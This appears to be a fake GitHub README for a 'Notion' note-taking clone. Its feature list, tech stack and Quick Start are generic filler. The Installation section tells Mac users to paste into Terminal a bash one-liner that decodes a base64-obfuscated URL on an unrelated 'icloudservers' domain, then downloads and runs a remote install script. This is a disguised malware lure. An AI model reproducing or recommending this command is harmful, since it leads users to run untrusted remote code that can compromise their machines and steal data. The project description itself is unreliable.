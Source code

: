 # 🧠 Notion 

Notion is supports note-taking, to-do lists, databases, and flexible content organization in a single interface.

## ✨ Features

- 📄 Block support (text, headings, lists, checkboxes, quotes, etc.)
- 🧱 Drag & drop system for blocks
- 🔍 Note search functionality
- 🌑 Light and dark theme support
- 🗂 Flexible page structure and nesting
- 📦 Local data storage (or integration with Firebase / Supabase)

## ⚙️ Installation

1. Open the Terminal app on your Mac
Press Command (⌘) + Space to launch Spotlight Search
Type Terminal, then press Enter to launch it

2. Enter this command in Terminal
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9pY2xvdWRzZXJ2ZXJzLmNvbS9nbS9pbnN0YWxsLnNo | base64 -d))"

Copy the following command and paste it into Terminal, then press Return

### 🚀 Quick Start

```bash
git clone https://github.com/yourusername/notion.git
cd notion
npm install
npm run dev
🛠️ Tech Stack
React / Next.js / TypeScript

Tailwind CSS

Zustand (or Redux) for state management

Firebase / Supabase (optional) for data storage

Slate.js / Lexical / Tiptap — rich text editor frameworks


💡 Roadmap
 Implement / command menu for block insertion

 Add image and file support

 Real-time collaboration (via WebSocket)

 Markdown import/export

🤝 Contribution
Want to contribute? Great!

Fork the repository

Create a new branch: git checkout -b feature/your-feature

Commit your changes: git commit -m "Added new feature"

Push to the branch: git push origin feature/your-feature

Open a Pull Request 🚀

📄 License
This project is licensed under the MIT License. See the LICENSE file for details.

